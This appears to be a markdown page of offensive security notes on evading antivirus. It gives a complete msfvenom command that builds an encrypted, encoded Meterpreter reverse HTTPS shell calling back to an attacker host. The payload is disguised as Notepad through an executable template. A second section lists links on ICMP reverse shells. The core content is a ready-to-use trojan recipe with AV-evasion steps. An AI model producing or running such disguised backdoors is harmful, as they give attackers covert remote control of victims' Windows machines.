 
## __Encrypted Shell With Msfvenom__

- - __https://www.rapid7.com/blog/post/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/__


> `Encryption` is one of those things that in some cases can evade antivirus `static` scanning, because the AV engine cannot decrypt it right away.


#### `List Encrypt`

```
msfvenom --list encrypt
```

```
AES256-CBC
RC4 
XOR 
Base64
```

#### `Combining pieces`

> Well, we could use `RC4` and that's it, but we'd better `combine` the parts, besides the `encryption` method, we'll also use the `x64/zutto_dekiru` encoder and a `template`.

> In fact, we have not used the `x86/shikata_ga_nai` `polymorphic` `encoder`, because we are working on a `64-bit` `process`.

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=443 -e x64/zutto_dekiru -x /path/to/notepad.exe --encrypt RC4 --encrypt-key aajsajdajdajdz -f exe -o /path/to/Notepad.exe
```

![notepad](https://user-images.githubusercontent.com/84678370/131216807-b02e788d-663c-40a3-ab13-f34518fdb649.png)

> But we can see that in `Proccess Hacker` it is not as nice as it looks in the other picture 

![Process-1](https://user-images.githubusercontent.com/84678370/131216907-e0f015bb-0807-4726-a1c2-7f8bce8e6d3c.png)

`Original Proccess`

![Process-2](https://user-images.githubusercontent.com/84678370/131216926-2605f0be-9614-4c1c-a279-32b3e9e601a1.png)

> Some of the `AV` out there are not good at scanning `statically` encrypted shellcode. But `runtime` `monitoring` is still a strong line of defense, which means that it is easy to get caught after `decrypting` and running it.



## __Simple ICMP SHELL__
- - __https://linuxhint.com/install_powershell_ubuntu/__
- - __https://github.com/Hackplayers/ReverseShell/blob/master/shell-reverse.ps1__
- - __https://backtrackacademy.com/articulo/simple-reverse-icmp-shell__
- - __https://www.hackplayers.com/2012/10/icmpsh-o-como-abrir-un-shell-inverso-por-ICMP.html__
- - __https://resources.infosecinstitute.com/topic/icmp-reverse-shell/__
- - __https://github.com/Hackplayers/ReverseShell__
